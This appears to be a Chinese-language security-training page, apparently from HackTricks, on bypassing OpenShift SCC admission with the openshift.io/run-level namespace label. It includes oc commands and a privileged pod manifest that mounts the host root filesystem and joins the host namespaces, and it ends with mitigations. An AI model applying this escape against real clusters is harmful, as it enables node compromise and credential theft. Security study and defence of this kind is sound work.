

# Openshift - SCC bypass

{{#include ../../../banners/hacktricks-training.md}}

**本页原作者是** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特权命名空间

以下默认项目具有较高权限，依赖准入插件（包括 SCC 准入）的功能在其中不会生效：<sup>[[1]](#references)</sup>

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

请勿在这些命名空间中运行工作负载，也不要向不受信任的用户授予访问权限。能够在其中创建 pod 的用户可以请求特权容器、主机文件系统挂载等安全敏感设置，而不会被 SCC 准入拒绝。<sup>[[1]](#references)</sup>

## 命名空间标签

`openshift.io/run-level` 命名空间标签专供 OpenShift 内部组件使用。Red Hat 警告称，设置该标签会导致 SCC 不应用于该命名空间中的 pod，使其中的工作负载具有较高权限。<sup>[[1]](#references)</sup> 利用此行为至少需要具备以下权限组合之一：

- 有权创建命名空间，并在新建的命名空间中创建 pod。
- 有权修改或更新现有命名空间，并在该命名空间中创建 pod。

```bash
$ oc auth can-i create namespaces
  yes

$ NAMESPACE=example-workloads
$ oc auth can-i patch namespace/"$NAMESPACE"
  yes

$ oc auth can-i create pods -n "$NAMESPACE"
  yes
```

<figure><figcaption></figcaption></figure>

## 添加标签

要将标签添加到测试命名空间：

```bash
$ oc label namespace example-workloads openshift.io/run-level=0
```

通过 YAML 文件创建带有该标签的 namespace：

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: example-workloads
  labels:
    openshift.io/run-level: "0"
```

在该 namespace 中创建的新 pods 不应带有 SCC 注解：

```bash
$ oc get pod scc-test-pod -o jsonpath='{.metadata.annotations.openshift\.io/scc}{"\n"}'

```

没有 SCC admission 时，pod 不受 SCC 控制项的约束，例如 privileged-container、privilege-escalation、host-namespace 和 host-volume 限制。<sup>[[1]](#references)</sup> 因此，恶意 pod 可以请求访问 host 所需的设置。

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: scc-test-pod
spec:
  hostNetwork: true # Bind the pod to the host network.
  hostPID: true # See host processes.
  hostIPC: true # Access the host IPC namespace.
  containers:
    - name: security-test
      image: registry.example/pentest/tooling:1.0
      imagePullPolicy: IfNotPresent
      securityContext:
        privileged: true
        allowPrivilegeEscalation: true
      resources:
        limits:
          memory: 200Mi
        requests:
          cpu: 30m
          memory: 100Mi
      volumeMounts:
        - name: hostrootfs
          mountPath: /mnt/host
  volumes:
    - name: hostrootfs
      hostPath:
        path: /
```

Host 访问可能暴露节点凭据及其他集群敏感材料，从而导致更大范围的集群失陷。请参阅以下页面中的 **Node-Post Exploitation** 部分：

{{#ref}}
../../kubernetes-security/kubernetes-post-exploitation/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### 自定义标签

自定义标签的发现和自动化上下文见 [OpenShift 基本信息](../openshift-basic-information.md#custom-labels-and-automation)。单独一个标签并不能证明存在新的主体或权限。

## 列出带有 run-level 标签的命名空间

命名空间枚举命令见 [OpenShift 基本信息](../openshift-basic-information.md#list-namespaces-with-the-run-level-label)。列出标签不会授予主体或权限。

## 缓解措施

阻止不可信主体使用保留标签创建或修改命名空间，并阻止其在高度特权的项目中部署工作负载。<sup>[[1]](#references)</sup>

**Open Policy Agent Gatekeeper** 等准入策略工具可以对 `Namespace` 对象实施约束，并拒绝不符合要求的准入请求，因此可将其配置为拒绝此标签。<sup>[[2]](#references)</sup>

{{#include ../../../banners/hacktricks-training.md}}

## References

- [1] [管理安全上下文约束 - OpenShift Container Platform 4.22](https://docs.redhat.com/en/documentation/openshift_container_platform/4.22/html/authentication_and_authorization/managing-pod-security-policies)
- [2] [如何使用 Gatekeeper](https://open-policy-agent.github.io/gatekeeper/website/docs/howto/)
